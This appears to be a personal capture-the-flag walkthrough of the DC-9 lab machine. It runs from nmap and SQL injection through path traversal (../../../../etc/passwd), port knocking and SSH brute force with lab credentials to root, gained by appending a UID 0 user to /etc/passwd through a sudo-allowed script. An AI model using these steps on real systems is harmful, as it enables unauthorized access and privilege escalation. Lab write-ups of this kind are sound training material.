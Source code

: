 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# DC-9
# 23/12/2022

----------------------------------------------------
# nmap result
----------------------------------------------------
STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

----------------------------------------------------
SQLi
----------------------------------------------------
databases
->information_schema
->Staff
->users

tables
->Users
->UserDetails

Users
columns
->UserID
->Username
->Password

Data
->admin
->856f5de590ef37314e7c3bdf6f8a66dc
->transorbital1

----------------------------------------------------
admin login
----------------------------------------------------
when logged in it showed "file does not exist"
http://10.0.2.21/welcome.php?file=../../../../etc/passwd


----------------------------------------------------
trying to login with ssh
----------------------------------------------------
http://10.0.2.21/manage.php?file=../../../../etc/knockd.conf
File does not exist
[options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn 

we have to trigger 9842,8475,7469  these ports in sequence
in order to open ssh port

for x in 7469 8475 9842; do nmap -vv 10.0.2.21 -p$x; done

the port 22 for ssh is open

now brute force the ssh from database usernames and password that we found previously from users database

Creds
chandlerb UrAG0D!
joeyt Passw0rd
janitor Ilovepeepee

we got a shell
----------------------------------------------------
Previlege escalation
----------------------------------------------------
login with janitor
-> ls -la
.secrets-for-putin
-> cd .secrets-for-putin
-> ls
passwords-found-on-post-it-notes.txt
-> cat passwords-found-on-post-it-notes.txt
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts


got more passwords
 now brute force ssh again

 we got fredf password B4-Tru3-001
 now login with fredf

 -> sudo -l
     (root) NOPASSWD: /opt/devstuff/dist/test/test

     its bin file 


research this things /devstuff/dist/ on google

-> cd /opt/devstuff$
-> ls
-> cat test.py
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()

this file 
getting a file from our inpute
reading it
copying it
to any given destination file

so lets add new user with id 0 as root in /etc/passwd

shub:x:0:0:root:/root:/bin/bash

so for that generate the password
-> openssl passwd -6 -salt abc abc
$6$abc$feY2G1TnANZ0KTBaV0Kkb3kO0521w9Wfvr8bW8wL0T11tXMxEhkG9poIhCuNFR3zasFDn.iplGDXaEJxlLwPt0
now make file with the new user line in /tmp


shub:$6$abc$feY2G1TnANZ0KTBaV0Kkb3kO0521w9Wfvr8bW8wL0T11tXMxEhkG9poIhCuNFR3zasFDn.iplGDXaEJxlLwPt0:0:0:root:/root:/bin/bash


-> sudo /opt/devstuff/dist/test/test /tmp/my /etc/passwd
you added new user with root previleges
 
 -> su shub
 password abc

 you got root

----------------------------------------------------
Flag
----------------------------------------------------

 root@dc-9:~# cat theflag.txt 


███╗   ██╗██╗ ██████╗███████╗    ██╗    ██╗ ██████╗ ██████╗ ██╗  ██╗██╗██╗██╗
████╗  ██║██║██╔════╝██╔════╝    ██║    ██║██╔═══██╗██╔══██╗██║ ██╔╝██║██║██║
██╔██╗ ██║██║██║     █████╗      ██║ █╗ ██║██║   ██║██████╔╝█████╔╝ ██║██║██║
██║╚██╗██║██║██║     ██╔══╝      ██║███╗██║██║   ██║██╔══██╗██╔═██╗ ╚═╝╚═╝╚═╝
██║ ╚████║██║╚██████╗███████╗    ╚███╔███╔╝╚██████╔╝██║  ██║██║  ██╗██╗██╗██╗
╚═╝  ╚═══╝╚═╝ ╚═════╝╚══════╝     ╚══╝╚══╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝╚═╝
                                                                             
Congratulations - you have done well to get to this point.

Hope you enjoyed DC-9.  Just wanted to send out a big thanks to all those
who have taken the time to complete the various DC challenges.

I also want to send out a big thank you to the various members of @m0tl3ycr3w .

They are an inspirational bunch of fellows.

Sure, they might smell a bit, but...just kidding.  :-)

Sadly, all things must come to an end, and this will be the last ever
challenge in the DC series.

So long, and thanks for all the fish.


